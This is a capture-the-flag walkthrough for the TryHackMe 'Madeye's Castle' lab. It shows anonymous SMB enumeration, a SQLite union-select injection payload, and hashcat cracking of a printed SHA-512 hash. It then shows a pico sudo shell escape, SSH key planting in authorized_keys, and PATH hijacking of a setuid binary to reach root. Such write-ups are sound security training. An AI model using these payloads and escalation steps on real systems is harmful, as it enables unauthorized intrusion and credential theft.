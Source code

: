 <h1>Write up for Madeye's Castle on <a href='https://tryhackme.com'>TryHackMe</a> </h1>

<h3>User1.txt</h3>

We start with nmap scan.
<br></br><img src='Screenshot (79).png'/><br></br>

We can see that there is samba service. Let's start with that.Listing the shares
(you can just press enter when it asks for password)
<br></br><img src='Screenshot (80).png'/><br></br>

Now we can see there is a share named 'sambashare'. Let's try accessing it without creds(just press enter when it asks for password).
<h5>smbclient \\\\{MACHINE IP}\\sambashare</h5>
We see two files in share
<br></br><img src='Screenshot (81).png'/><br></br>
we can download both the files to local machine using the get command in smb
<h5>get {FILE NAME}</h5>

spellnames.txt looks like a wordlist which might come handy later and .notes.txt has a message inside it
<h5>Hagrid told me that spells names are not good since they will not "rock you"<br></br>
Hermonine loves historical text editors along with reading old books.</h5>

Seems interesting, now lets move to the webapp. Visiting the webpage just gives a default apache page. So I staerted enumerating the webpage with <a href='https://github.com/ffuf/ffuf'>ffuf</a> meanwhile I opened the source code of the webpage and found an intersting comment
<br></br><img src='Screenshot (82).png'/><br></br>

So now we know a virtual host, lets add that to <b>/etc/hosts</b>
<br></br><img src='Screenshot (83).png'/><br></br>

Visiting the vhost just gives us a login page.I tried some default creds for that but they obviously didn't work. I ran <a href='https://github.com/ffuf/ffuf'>ffuf</a> against the webpage but didn't find anything interesting. I thought of brute forcing the creds but I wanted that to be a last resort so I tried for a basic sql injection.
<br><b>Request</b></br>
<br></br><img src='Screenshot (84).png'/><br></br>
<br><b>Response</b></br>
<br></br><img src='Screenshot (85).png'/><br></br>
Nice, now we have sql injection. Let's take this request to burp repeater. Let's determine the number of columns in the table. I tried order by, group by but they didn't work but union select worked.
<br></br><img src='Screenshot (86).png'/><br></br>
We can see that value 1 and 4 are being reflected in the response, We can use this to get data from the server. I tried to determine what version was, tried all the verion commands and sqlite_version() gave back the response
<br></br><img src='Screenshot (87).png'/><br></br>
We now know that it is sqlite, let's get the tables
<br></br><img src='Screenshot (88).png'/><br></br>
Now lets get the columns in the table
<br></br><img src='Screenshot (89).png'/><br></br>

Now we have the following table: <b>users</b>
The columns in the table are: <b>name,password,notes,admin</b><br></br>

You can extract the column content with this payload (replace spaces with '+' in burpsuite)
<h5>1' union select 1,2,3,group_concat({COLUMN NAME}) from users;--</h5>

When extracting we get multiple users, the one user that stands out is <b>Harry Turner</b> because of what his notes say <b>My linux username is my first name</b> and the note next to harry say <b>and password uses best64</b>
<br></br>
Now best64 is a rule which is used in hashcat, rules are basically how a string can be constructed in different ways given a rule (read more about it <a href='https://laconicwolf.com/2019/03/29/hashcat-tutorial-rule-writing/'>here</a>). In linux you can find it's location is <b>/usr/share/hashcat/rules/best64.rule</b> or you can find the rule <a href='https://github.com/hashcat/hashcat/blob/master/rules/best64.rule'>here</a>

So we need to crack Harry's hash with best64 rule but what wordlist do we need, if we use rockyou.txt then it will take a long time so we can use the spellnames.txt wordlist that we found earlier. Now we need to find the type of hash that is, we can use hashid in linux.
<h5>hashid '{HASH}'</h5>
<br></br><img src='Screenshot (90).png'/><br></br>
It's a SHA-512 hash, now we can crack the hash for harry
<h5>hashcat -m 1700 -a 0 'c53d7af1bbe101a6b45a3844c89c8c06d8ac24ed562f01b848cad9925c691e6f10217b6594532b9cd31aa5762d85df642530152d9adb3005fac407e2896bf492' -r {PATH TO best64.rule FILE} {PATH TO spellnames.txt}</h5>

The hash is cracked and we get the passowrd for the user. So the ssh creds would be, harry:{CRACKED HASH}


<h3>User2.txt</h3>
After getting the shell as harry if you run <b>sudo -l</b> we can see that we can run <b>/usr/bin/pico</b> as user <b>hermonine</b>. I ran the command as user hermonine
<h5>sudo -u hermonine /usr/bin/pico</h5>
This opens a text editor. lets go to <a href='https://gtfobins.github.io'>GTFO</a> to find a way to get a shell. Search for pico and in sudo section we can see a way to gain a shell.
Start the nano editor with 
<h5>sudo -u hermonine /usr/bin/pico</h5>
and then press ^R (left CTRL + R) followed by ^X (Left CTRL + X) and then it will ask for a command enter the command <b>reset; sh 1>&0 2>&0</b> and you will get a shell.
It might look like you didn't get a shell but if you run <b>id</b> you will get the output. So you can run <b>bash -i</b> to get a interactive shell and then you can clear the screen.
We have the flag for the user if you go to /home/hermonine. You can upgrade this to a ssh shell by adding your public key to authorized_keys folder in .ssh
<h5>mkdir .ssh; echo '{YOUR PUBLIC KEY}' > /home/hermonine/.ssh/authorized_keys</h5>
Login with you private key to get a ssh shell as hermonine

<h3>Root.txt</h3>

If you look for binary which have set uid then you will see and interesting file
<br></br><img src='Screenshot (91).png'/><br></br>

I ran the binary and it just asked me to guess a number but obviously I wasn't able to. So I decided to look inside the while and copied it to my mahcine
<h5>scp -i {PATH TO PRIVATE KEY} hermonine@{MACHINE IP}:/srv/time-turner/swagger .</h5>

I opened the binary in ghidra and found something interesting. If we are able to guess the number correctly then the binary executes a impressive function and in that function we can see something that is quite usefult for us
<br></br><img src='Screenshot (92).png'/><br></br>
The binary is executing uname but without full path which means we can hijack the uname. I created a uname in /tmp and it had the following command
<h5>mkdir /root/.ssh;echo '{YOUR PUBLIC KEY} > /root/.ssh/authorized_keys'</h5>
I made the binary executable with <h5>chmod +x /tmp/uname</h5> and added the /tmp to the path of the user.
<h5>export PATH=/tmp:$PATH</h5>
This added /tmp to user's PATH. Now we just need to guess the right  number. If you run the binary multiple times in a short span of time we can see that the random number is same
<br></br><img src='Screenshot (93).png'/><br></br>
Now we can extract the number from previous binary and give to the new binary which will evaluate true and execute the uname command
<h5>echo 0 | /srv/time-turner/swagger | grep -oE '[^ ]+$' | tail -1 | /srv/time-turner/swagger</5>
This will add your public key to root's authorized_keys and then you can use that to login with your private key as root. You can also read the flag directly too





